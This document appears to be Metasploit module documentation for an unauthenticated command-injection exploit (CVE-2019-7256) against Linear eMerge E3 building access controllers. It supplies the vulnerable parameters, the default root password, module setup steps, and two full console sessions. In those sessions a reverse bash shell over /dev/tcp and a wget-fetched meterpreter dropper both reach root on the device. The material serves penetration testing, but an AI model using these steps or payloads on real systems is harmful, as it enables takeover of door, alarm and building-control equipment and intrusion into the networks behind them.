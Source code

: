 ## Vulnerable Application

Nortek Security & Control, LLC (NSC) is a leader in wireless security, home automation and personal safety systems and devices.
The eMerge E3-Series is part of Linear’s access control platform, that delivers entry-level access control to buildings.
It is a web based application where the HTTP web interface is typically exposed to the public internet.

The Linear eMerge E3 versions `1.00-06` and below are vulnerable to unauthenticated command injection in card_scan_decoder.php
via the  `No` and `door` HTTP GET parameter. Successful exploitation results in command execution as the root user.

Building automation and access control systems are at the heart of many critical infrastructures, and their security is vital.
Executing attacks on these systems may enable unauthenticated attackers to access and manipulate doors, elevators, air-conditioning systems,
cameras, boilers, lights, safety alarm systems within a building.

This issue affects all Linear eMerge E3-Series with firmware versions up to and including `1.00-06`.

Installing a vulnerable test bed requires a Linear eMerge E3-Series access controller with the vulnerable software loaded.

This module has been tested against a Linear eMerge access controller with the specifications listed below:

* Nortek Linear eMerge E3 Elite access controller
* Firmware: `v1.00-03`

## Verification Steps

1. `use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
### ROOT_PASSWORD
The password of the `root` user on the target device. Defaults to `davestyle`, which is
the default root password for Linear eMerge E3-Series devices.

## Scenarios

### Nortek Linear eMerge E3 Elite access controller bash reverse shell

```
msf6 > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 0
target => 0
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.16 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with bash -c '0<&179-;exec 179<>/dev/tcp/192.168.100.7/4444;sh <&179 >&179 2>&179'
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54274) at 2022-12-01 18:51:54 +0000

uname -a
Linux cuckoo 3.14.54 #1 SMP PREEMPT Thu Dec 6 19:08:58 PST 2018 armv7l GNU/Linux
whoami
root
exit
```

### Nortek Linear eMerge E3 Elite access controller meterpreter session

```
msf6 > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 1
target => 1
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.18 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/n6tUft9RrS
[*] Client 127.0.0.1 (Wget) requested /n6tUft9RrS
[*] Sending payload to 127.0.0.1 (Wget)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:49448) at 2022-12-01 18:50:26 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux 3.14.54)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
```

## Limitations
Due to the limitations of restricted `busybox` command implementation on the Linear eMerge E3 Access Controller, only a
few unix command payloads will work such as `cmd/unix/reverse_bash` or `cmd/unix/reverse` (telnet).


